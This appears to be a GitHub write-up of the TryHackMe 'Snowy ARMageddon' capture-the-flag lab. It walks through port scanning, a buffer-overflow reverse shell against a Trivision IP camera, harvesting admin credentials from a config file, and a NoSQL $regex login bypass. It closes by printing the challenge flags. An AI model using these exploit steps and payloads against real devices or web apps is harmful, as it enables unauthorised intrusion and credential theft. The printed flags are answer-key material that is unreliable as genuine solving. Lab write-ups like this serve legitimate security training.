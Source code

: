 # Snowy ARMageddon TryHackMe Walkthrough (Insane Difficulty)
This is a comprehensive step-by-step walkthrough for the "Snowy ARMageddon" (Insane Difficulty) challenge. Assume you're attacking from a Kali/BlackArch VM connected to the TryHackMe network, with the target IP as `<TARGET_IP> (10.10.x.x)`.
#
By the way before you scroll down enough, I want to show you the achievement badge that TryHackMe gave to me as I completed the challenge. This badge is also proof that I am an expert in this field: ![image alt](https://github.com/ilhambagas/Snowy-ARMageddon/blob/2d08c11ae61915f60a649292b502bd4cc4ef3ae0/TryHackMe%20Yeti%20Badge_Ilham%20Bagas%20A.png)

If you want to check or verify it, just click this TryHackMe link: https://tryhackme.com/ilhambagas/badges/aoc5sidequest1

Thankyou.
#
# Prerequisites:
- Install: sudo apt update && sudo apt install nmap ffuf burpsuite (or equivalent on your distro).
- Download wordlists: SecLists (/usr/share/seclists/Discovery/Web-Content/).
- For ARM exploits: Perl or Python with socket libraries.
#
## Task 1: What is the content of the first flag?
### Network Enumeration
Start by scanning the target for open ports and services. This reveals SSH (protected), Telnet (wrapped), a web server, and an unknown high port.

**Command:**
```text
nmap -sSVC -T4 -p- -v --open --reason -oA snowy_nmap <TARGET_IP>
```
**Expected Output (Key Ports):**
- 22/tcp: OpenSSH 8.2p1 (Ubuntu) – SSH, but key-auth only; skip for now.
- 23/tcp: tcpwrapped – Telnet, but connection refused initially.
- 8080/tcp: Apache 2.4.57 – Web server (cyber police dashboard).
- 50628/tcp: Unknown – IP camera service.

**Next Steps:**
- Parse output: nmap-parse-output snowy_nmap.xml group-by-service (if you have the tool).
- Visit http://<TARGET_IP>:8080/ – Shows an "angry elf" error page (403-like). No immediate access.
- Visit http://<TARGET_IP>:50628/ – Trivision NC-227WF HD 720P camera login page. Defaults `(admin:admin)` fail.

**Enumeration on Web (Port 8080):**

Fuzz for directories/files to find hidden paths
```text
ffuf -u http://<TARGET_IP>:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -fc 403
```
### Exploit the IP Camera (Port 50628) – Buffer Overflow RCE
The camera is vulnerable to a buffer overflow in its web service, allowing root shell via a reverse shell. Research `Trivision NC-227WF exploit` to find PoCs (from BlackHat or similar talks). Use a pre-made Perl exploit to open Telnet, or craft a Python one for reverse shell.

**Option 1: Quick Perl PoC (Opens Telnet)**

Download a PoC script (from exploit-db or GitHub mirrors; search `trivision camera telnet exploit perl`).
```text
# Save as exploit.pl
# (Script sends overflow payload to enable unauth Telnet on port 23)
perl exploit.pl | nc <TARGET_IP> 50628
```
- This crashes the service briefly but enables Telnet access without creds.

Connect:
```text
telnet <TARGET_IP> 23
```
- Lands you in a BusyBox root shell (chrooted environment). Architecture: ARMv5 (confirm with cat /proc/cpuinfo).

**Option 2: Custom Python Reverse Shell (Advanced)**

If Perl fails, use a Python PoC from research (based on NC-228WF vuln).
1. Download base script (from no-sec.net or shell-storm.org).
2. Modify shellcode for your IP (avoid bad chars: 0x00, 0x09, 0x0a, 0x0d, 0x20, 0x23, 0x26).
    - Disassemble original shellcode (ARM little-endian) at shell-storm.org/online-disassembler.
    - Example mod for IP 10.10.x.x: Replace IP bytes with additions/subtractions (for 0x0a (10), use add r1, #0x0b; sub r1, #0x01).
    - Reassemble and update script variables: HOST=<TARGET_IP>, LHOST=<YOUR_IP>, LPORT=4444.

Command:
```text
python3 exploit.py <TARGET_IP> <YOUR_IP> 4444
nc -lvnp 4444  # Listener on your machine
```
- Success: Reverse shell as `root@NC-227WF-HD-720P`.

System Exploration (in Shell):
- BusyBox limits: No find, use ls -R / or manual traversal.
```text
ls -la /var/etc/
cat /var/etc/umconfig.txt  # Web config file
```
- Reveals admin creds:

  name=`admin`

  password=`Y3tiStarCur!ouspassword=admin`

### Retrieve the First Flag
Use the camera creds to auth on the web interface.

**Steps:**
1. Go to http://<TARGET_IP>:50628/en/login.asp.
2. Login: Username `admin`, Password `Y3tiStarCur!ouspassword=admin`.
3. Navigate to http://<TARGET_IP>:50628/en/player/mjpeg_vga.asp (MJPEG stream).
4. The "home page" or stream background reveals the flag (Yeti photo with text).
### First Flag
`THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`
#
## Task 2: What is the content of the yetikey2.txt file?
### NoSQL Injection on Web App (Port 8080)
The app's PHP 8.1.26 with MongoDB backend (leaf logo hint). Dir enum with ffuf/gobuster:
```text
ffuf -u http://<TARGET_IP>:8080/FUZZ/ -w /usr/share/wordlists/dirb/common.txt -fs 933  # Add trailing / to bypass 403s
```
Finds `/login.php/`, `/index.php/`. Hit http://<TARGET_IP>:8080/login.php/123 (slash bypasses checks) --> it's a police login form.

Intercept POST in Burp:
```text
POST /login.php/123 HTTP/1.1
Host: <TARGET_IP>:8080
Content-Type: application/x-www-form-urlencoded
...

username=admin&password=admin
```
Valid creds fail. MongoDB hint → NoSQL injection! Use `$regex` for bypass.

**Bypass Payload:**
enumerate first (script: https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration):
```text
python nosql_enum.py -u http://<TARGET_IP>:8080/login.php/ -ep username
# Outputs: Frosteau (detective from story), etc.
```
Target "Frosteau":
```text
username[$regex]=Frosteau&password[$regex]=.*
```
Send in Burp, 302 redirect + PHPSESSID cookie. Follow to `/` with cookie: Welcome dashboard!
#
# Grab the Final Flag
In Frosteau's dashboard (http://<TARGET_IP>:8080/ with cookie), hunt files. The `yetikey2.txt` is in the user dir or visible on the page.

Content: `2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK` 

That's it, stealthy yeti wins!




















